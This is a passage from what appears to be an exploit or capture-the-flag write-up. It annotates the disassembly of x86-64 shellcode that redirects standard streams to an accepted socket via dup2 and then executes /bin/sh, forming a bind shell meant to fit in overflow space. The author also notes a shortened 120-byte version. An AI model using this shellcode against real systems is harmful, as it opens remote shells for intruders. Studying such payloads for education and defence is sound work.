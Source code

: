 	; 5 - dup2 to replace stdin and stdout with socket's

	  ; oldfd = socket fd returned from accept()
	  4000e0:   4d 31 c9                xor    r9,r9
	  4000e3:   49 89 c1                mov    r9,rax
	  4000e6:   4c 89 cf                mov    rdi,r9

	  ; newfd = 3 (stderr)
	  4000e9:   48 31 f6                xor    rsi,rsi
	  4000ec:   6a 03                   push   0x3
	  4000ee:   5e                      pop    rsi
	00000000004000ef <doop>:

	  ; newfd--
	  4000ef:   48 ff ce                dec    rsi

	  ; dup2(socket, newfd)
	  4000f2:   6a 21                   push   0x21
	  4000f4:   58                      pop    rax
	  4000f5:   0f 05                   syscall 

	  ; loop until new descriptor is 0 (flags here are set by 'dec')
	  4000f7:   75 f6                   jne    4000ef <doop>


	; 6 - execute the shell!

	  ; argv and envp = NULL
	  4000f9:   48 31 ff                xor    rdi,rdi
	  4000fc:   57                      push   rdi
	  4000fd:   57                      push   rdi
	  4000fe:   5e                      pop    rsi
	  4000ff:   5a                      pop    rdx

	  ; filename = /bin/sh (the first '/' is duplicated, to avoid explicit null terminator)
	  ; use little endian 64-bit integer representation of a sequence of chars
	  400100:   48 bf 2f 2f 62 69 6e    movabs rdi,0x68732f6e69622f2f
	  400107:   2f 73 68 

	  ; add the null terminator by shifting right, (yeah, little endian string)
	  40010a:   48 c1 ef 08             shr    rdi,0x8

	  ; make a pointer to it
	  40010e:   57                      push   rdi
	  40010f:   54                      push   rsp
	  400110:   5f                      pop    rdi

	  ; execve('/bin/dash', NULL, NULL) call
	  400111:   6a 3b                   push   0x3b
	  400113:   58                      pop    rax
	  400114:   0f 05                   syscall 


To decode syscall numbers, i used this: [https://filippo.io/linux-syscall-table/](https://filippo.io/linux-syscall-table/).

Ok, now that's demistified a bit, here is a slightly shorter version (it reduces down to 120 bytes) - i guess it can be shortened further, but in this case we already have overflow space to waste: [shell.nasm](shell.nasm). Basically i removed all the unnecessary `xor` instructions and simplified unnecessarily weird pointer creations (like the one at `4000ce`).
